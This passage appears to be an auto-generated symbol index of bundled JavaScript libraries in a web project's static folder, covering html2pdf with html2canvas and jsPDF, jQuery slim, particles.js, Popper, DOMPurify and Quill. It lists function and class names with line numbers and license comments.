- `n` (line 201) - *3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.*
- `i` (line 201) - *3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.*
- `T` (line 201) - *3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.*
- `p` (line 217) - *Extracted from pdf.js https://github.com/andreasgal/pdf.js  Copyright (c) 2011 Mozilla Foundation  Contributors: Andreas Gal <gal@mozilla.com> Chris G Jones <cjones@mozilla.com> Shaon Barman <shaon.barman@gmail.com> Vivien Nicolas <21@vingtetun.org> Justin D'Arcangelo <justindarc@gmail.com> Yury Delendik*
- `w` (line 217) - *Extracted from pdf.js https://github.com/andreasgal/pdf.js  Copyright (c) 2011 Mozilla Foundation  Contributors: Andreas Gal <gal@mozilla.com> Chris G Jones <cjones@mozilla.com> Shaon Barman <shaon.barman@gmail.com> Vivien Nicolas <21@vingtetun.org> Justin D'Arcangelo <justindarc@gmail.com> Yury Delendik*
- `y` (line 217) - *Extracted from pdf.js https://github.com/andreasgal/pdf.js  Copyright (c) 2011 Mozilla Foundation  Contributors: Andreas Gal <gal@mozilla.com> Chris G Jones <cjones@mozilla.com> Shaon Barman <shaon.barman@gmail.com> Vivien Nicolas <21@vingtetun.org> Justin D'Arcangelo <justindarc@gmail.com> Yury Delendik*
- `paddingBox` (line 1476)
- `size` (line 1570)
- `position` (line 1571)
- `listStyleImage` (line 2215)
- `svg` (line 2807)
- `buffer` (line 3088)
- `codePoints` (line 3730)
- `codePoints` (line 3767)
- `breaker` (line 3873)
- `bounds` (line 3956)
- `listOwner` (line 4642)
- `stepSize` (line 5165)
- `angle` (line 5179)
- `d` (line 5308)
- `contentBox` (line 5562)
- `backgroundPaintingArea` (line 5592)
- `backgroundPositioningArea` (line 5638)
- `backgroundImageSize` (line 5639)
- `position` (line 5640)
- `_path` (line 5641)
- `backgroundPositioningArea` (line 5651)
- `backgroundImageSize` (line 5652)
- `position` (line 5653)
- `gradient` (line 5656)
- `clonedChild` (line 6570)
- `_parseBounds` (line 6645)
- `counters` (line 6725)
- `contentBefore` (line 6726)
- `contentAfter` (line 6740)
- `src` (line 6781)
- `stack` (line 7154)
- `result` (line 7256)
- `format_as_string` (line 9058)
- `e` (line 27)
- `c` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `I` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `C` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `T` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `F` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `P` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `E` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `q` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `O` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `B` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `R` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `j` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `D` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `M` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `U` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `d` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `n` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `h` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `c` (line 62) - *jsPDF AcroForm Plugin Copyright (c) 2016 Alexander Weidt, https://github.com/BiggA94  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `r` (line 70) - *jsPDF Canvas PlugIn Copyright (c) 2014 Steven Spungin (TwelveTone LLC)  steven@twelvetone.tv  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `C` (line 78) - *jsPDF Outline PlugIn Copyright (c) 2014 Steven Spungin (TwelveTone LLC)  steven@twelvetone.tv  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `v` (line 94) - *jsPDF bmp Support PlugIn Copyright (c) 2018 Aras Abbasi  Licensed under the MIT License. http://opensource.org/licenses/mit-license*
- `c` (line 115) - *@preserve jsPDF SVG plugin Copyright (c) 2012 Willow Systems Corporation, willow-systems.com*
- `s` (line 115) - *@preserve jsPDF SVG plugin Copyright (c) 2012 Willow Systems Corporation, willow-systems.com*
- `r` (line 201) - *3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.*
- `u` (line 201) - *3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.*
- `d` (line 201) - *3. The names of the authors may not be used to endorse or promote products derived from this software without specific prior written permission. THIS SOFTWARE IS PROVIDED ``AS IS'' AND ANY EXPRESSED OR IMPLIED WARRANTIES, INCLUDING, BUT NOT LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL JCRAFT, INC. OR ANY CONTRIBUTORS TO THIS SOFTWARE BE LIABLE FOR ANY DIRECT, INDIRECT, INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE POSSIBILITY OF SUCH DAMAGE.*
- `St` (line 217) - *Extracted from pdf.js https://github.com/andreasgal/pdf.js  Copyright (c) 2011 Mozilla Foundation  Contributors: Andreas Gal <gal@mozilla.com> Chris G Jones <cjones@mozilla.com> Shaon Barman <shaon.barman@gmail.com> Vivien Nicolas <21@vingtetun.org> Justin D'Arcangelo <justindarc@gmail.com> Yury Delendik*
- `_slicedToArray` (line 244)
- `_createClass` (line 246)
- `hex3` (line 251)
- `hex6` (line 260)
- `rgb` (line 269)
- `rgba` (line 278)
- `fromArray` (line 286)
- `namedColor` (line 290)
- `Color` (line 295)
- `parseLine` (line 519)
- `parseTextDecorationLine` (line 531)
- `parseTextDecorationStyle` (line 539)
- `_createClass` (line 581)
- `addColorStops` (line 589)
- `CanvasRenderer` (line 599)
- `_createClass` (line 839)
- `Logger` (line 843)
- `_createClass` (line 934)
- `Length` (line 949)
- `getRootFontSize` (line 981)
- `Size` (line 1014)
- `Vector` (line 1035)
- `_createClass` (line 1054)
- `lerp` (line 1066)
- `BezierCurve` (line 1070)
- `_createClass` (line 1113)
- `createPathFromCurves` (line 1201)
- `getCurvePoints` (line 1290)
- `BackgroundSize` (line 1408)
- `parseBackgroundClip` (line 1520)
- `parseBackgroundOrigin` (line 1530)
- `parseBackgroundRepeat` (line 1540)
- `parseBackgroundImages` (line 1557)
- `parseBackgroundSize` (line 1582)
- `parseBackgoundPosition` (line 1586)
- `appendResult` (line 1611)
- `parseBorderStyle` (line 1746)
- `_slicedToArray` (line 1779)
- `parseDisplayValue` (line 1843)
- `setDisplayBit` (line 1908)
- `parseFontWeight` (line 1958)
- `parseListStylePosition` (line 2223)
- `appendValue` (line 2376)
- `appendShadow` (line 2388)
- `toFloat` (line 2490)
- `parseTransformOrigin` (line 2517) - *$FlowFixMe*
- `parseTransformMatrix` (line 2527) - *$FlowFixMe*
- `_createClass` (line 2624)
- `ForeignObjectRenderer` (line 2628)
- `testRangeBounds` (line 2710)
- `testBase64` (line 2735) - *iOS 10.3 taints canvas with base64 images unless crossOrigin = 'anonymous'*
- `onload` (line 2744)
- `testCORS` (line 2768)
- `testResponseType` (line 2772)
- `testSVG` (line 2776)
- `isGreenPixel` (line 2791)
- `testForeignObject` (line 2795)
- `_createClass` (line 3014)
- `_createClass` (line 3195)
- `_slicedToArray` (line 3197)
- `isAdjacentWithSpaceIgnored` (line 3395)
- `previousNonSpaceClassType` (line 3444)
- `_lineBreakAtIndex` (line 3457)
- `cssFormattedClasses` (line 3705)
- `Break` (line 3746)
- `getWrapperBounds` (line 3950)
- `getRangeBounds` (line 3965)
- `_createClass` (line 3982)
- `TextContainer` (line 3990)
- `transform` (line 4015)
- `Circle` (line 4048)
- `inlineFormElement` (line 4160)
- `getInputValue` (line 4179)
- `createAdditiveCounter` (line 4326)
- `createCounterStyleWithSymbolResolver` (line 4340)
- `createCounterStyleFromRange` (line 4354)
- `createCounterStyleFromSymbols` (line 4362)
- `createCJKCounter` (line 4376)
- `_createClass` (line 4524)
- `NodeContainer` (line 4586)
- `getImage` (line 4730)
- `_createClass` (line 4763)
- `StackingContext` (line 4775)
- `parseNodeTree` (line 4845)
- `createsRealStackingContext` (line 4905)
- `createsStackingContext` (line 4909)
- `isBodyWithTransparentRoot` (line 4913)
- `_createClass` (line 4927)
- `_slicedToArray` (line 5048)
- `parseColorStops` (line 5129)
- `parseLinearGradient` (line 5178)
- `parseRadialGradient` (line 5193)
- `calculateGradientDirection` (line 5234)
- `parseTopRight` (line 5250)
- `parseSideOrCorner` (line 5254)
- `parsePercentageAngle` (line 5292)
- `findCorner` (line 5303)
- `calculateRadius` (line 5323)
- `transformObsoleteColorStops` (line 5465)
- `_slicedToArray` (line 5503)
- `_createClass` (line 5505)
- `Renderer` (line 5525)
- `callback` (line 5547)
- `callback` (line 5591)
- `splitDescendants` (line 5764)
- `splitStackingContexts` (line 5780)
- `sortByZIndex` (line 5808)
- `_createClass` (line 5896)
- `ResourceLoader` (line 5908)
- `imageLoadHandler` (line 6025)
- `isInlineImage` (line 6115)
- `isInlineBase64Image` (line 6118)
- `isBlobImage` (line 6121)
- `isSVG` (line 6125)
- `_loadImage` (line 6129)
- `_slicedToArray` (line 6161)
- `addOtherToken` (line 6442)
- `getQuote` (line 6453)
- `formatCounterValue` (line 6465)
- `_slicedToArray` (line 6494)
- `_createClass` (line 6496)
- `getSheetFonts` (line 6776)
- `createStyleSheetFontsFromText` (line 6813)
- `restoreOwnerScroll` (line 6831)
- `cloneCanvasContents` (line 6837)
- `inlinePseudoElement` (line 6853)
- `createPseudoHideStyles` (line 6897)
- `createStyles` (line 6901)
- `initNode` (line 6907)
- `generateIframeKey` (line 6917)
- `getIframeDocumentElement` (line 6923)
- `createIframeContainer` (line 6952)
- `iframeLoader` (line 6974)
- `serializeDoctype` (line 7034)
- `_slicedToArray` (line 7071)
- `html2canvas` (line 7227)
- `objType` (line 7309) - *Determine the type of a variable/object.*
- `createElement` (line 7315) - *Create an HTML element with optional className, innerHTML, and style.*
- `cloneNode` (line 7332) - *Deep-clone a node and preserve contents/properties.*
- `unitConvert` (line 7363) - *Convert units from px using the conversion value 'k' from jsPDF.*
- `toPx` (line 7376) - *Convert units to px using the conversion value 'k' from jsPDF.*
- `asap` (line 7417)
- `Enumerator` (line 7860)
- `Worker` (line 8566)
- `html2pdf` (line 9342) - *Generate a PDF from an HTML element or string using html2canvas and jsPDF.  @param {Element|string} source The source element or HTML string. @param {Object=} opt An object of optional settings: 'margin', 'filename', 'image' ('type' and 'quality'), and 'html2canvas' / 'jspdf', which are sent as settings to their corresponding functions.*

**Methods:**
- `_createClass` (line 312)
- `_createClass` (line 606)
- `_createClass` (line 852)
- `_createClass` (line 958)
- `_createClass` (line 1081)
- `_createClass` (line 1145)
- `_createClass` (line 2635)
- `setTimeout` (line 2761)
- `SUPPORT_RANGE_BOUNDS` (line 2833) - *$FlowFixMe - get/set properties not yet supported*
- `SUPPORT_SVG_DRAWING` (line 2839) - *$FlowFixMe - get/set properties not yet supported*
- `SUPPORT_BASE64_DRAWING` (line 2845) - *$FlowFixMe - get/set properties not yet supported*
- `SUPPORT_FOREIGNOBJECT_DRAWING` (line 2855) - *$FlowFixMe - get/set properties not yet supported*
- `SUPPORT_CORS_IMAGES` (line 2861) - *$FlowFixMe - get/set properties not yet supported*
- `SUPPORT_RESPONSE_TYPE` (line 2867) - *$FlowFixMe - get/set properties not yet supported*
- `SUPPORT_CORS_XHR` (line 2873) - *$FlowFixMe - get/set properties not yet supported*
- `_createClass` (line 3119)
- `_createClass` (line 3756)
- `_createClass` (line 3999)
- `_createClass` (line 4664)
- `_createClass` (line 4786)
- `_createClass` (line 4943)
- `_createClass` (line 5534)
- `_createClass` (line 5920)
- `setTimeout` (line 6040) - *Inline XML images may fail to parse, throwing an Error later on*
- `setTimeout` (line 6046)
- `_createClass` (line 6100)
- `setTimeout` (line 6139) - *Inline XML images may fail to parse, throwing an Error later on*
- `setTimeout` (line 6144)
- `_createClass` (line 6542)
- `asap` (line 7551)
- `asap` (line 7641)
- `subscribe` (line 7675)
- `resolver` (line 7834)
- `subscribe` (line 7944)
- `setTimeout` (line 8013)
- `setTimeout` (line 8019)
- `setTimeout` (line 8038)
- `setTimeout` (line 8044)
- `findResult` (line 8339)
- `findAuthor` (line 8374)
- `findBoooksByAuthor` (line 8380)
- `then` (line 8402)
- `findAuthor` (line 8451)

#### `jquery-3.5.1.slim.min.js`
**Path:** `static/js/jquery-3.5.1.slim.min.js`
**File Doc:** *! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license*

**Functions:**
- `e` (line 2) - */*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license*
- `p` (line 2) - */*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license*
- `h` (line 2) - */*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license*
- `X` (line 2) - */*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license*
- `ae` (line 2) - */*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license*
- `i` (line 2) - */*! jQuery v3.5.1 -ajax,-ajax/jsonp,-ajax/load,-ajax/script,-ajax/var/location,-ajax/var/nonce,-ajax/var/rquery,-ajax/xhr,-manipulation/_evalUrl,-deprecated/ajax-event-alias,-effects,-effects/Tween,-effects/animatedSelector | (c) JS Foundation and other contributors | jquery.org/license*

#### `particles.js`
**Path:** `static/js/particles.js`
**File Doc:** *----------------------------------------------- Author : Vincent Garreau  - vincentgarreau.com MIT license: http://opensource.org/licenses/MIT Demo / Generator : vincentgarreau.com/particles.js GitHub : github.com/VincentGarreau/particles.js How to use? : Check the GitHub README v2.0.0 -----------------------------------------------*

**Functions:**
- `draw` (line 463)
- `init` (line 799)
- `process` (line 881)
- `process` (line 972)
- `hexToRgb` (line 1449)
- `clamp` (line 1464)
- `isInArray` (line 1468)
- `d` (line 513)
- `interiorAngleDegrees` (line 1248)
- `pJS` (line 10)

**Methods:**
- `setTimeout` (line 1148)

#### `popper-2.5.4.min.js`
**Path:** `static/js/popper-2.5.4.min.js`

**Functions:**
- `r` (line 5)

#### `purify-3.0.9.min.js`
**Path:** `static/js/purify-3.0.9.min.js`
**File Doc:** *! @license DOMPurify 3.0.9 | (c) Cure53 and other contributors | Released under the Apache license 2.0 and Mozilla Public License 2.0 | github.com/cure53/DOMPurify/blob/3.0.9/LICENSE*

**Functions:**
- `V` (line 2) - */*! @license DOMPurify 3.0.9 | (c) Cure53 and other contributors | Released under the Apache license 2.0 and Mozilla Public License 2.0 | github.com/cure53/DOMPurify/blob/3.0.9/LICENSE*
- `Z` (line 2) - */*! @license DOMPurify 3.0.9 | (c) Cure53 and other contributors | Released under the Apache license 2.0 and Mozilla Public License 2.0 | github.com/cure53/DOMPurify/blob/3.0.9/LICENSE*

#### `quill-2.0.3.js`
**Path:** `static/js/quill-2.0.3.js`
**File Doc:** *! For license information please see quill.js.LICENSE.txt*

**Classes:**
- `c` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `u` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `i` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `i` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `s` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `o` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `o` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `i` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `m` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `N` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `k` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `S` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `j` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `I` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `a` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `u` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `h` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `d` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `i` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `o` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `S` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `f` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `h` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `i` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `s` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `t` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `b` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `t` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `t` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `t` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `t` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `o` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `c` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `h` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `g` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `m` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `N` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `w` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `k` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `L` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `T` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `R` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `M` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `Z` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `G` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `X` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `Q` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `J` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `Y` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `tt` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `et` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `rt` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `ot` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `wt` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `qt` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `St` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `Ot` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `jt` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `Ct` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `extends` (line 2) - */*! For license information please see quill.js.LICENSE.txt*

**Functions:**
- `i` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `l` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `s` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `d` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `t` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `r` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `r` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `C` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `h` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `n` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `l` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `q` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
- `e` (line 2) - */*! For license information please see quill.js.LICENSE.txt*
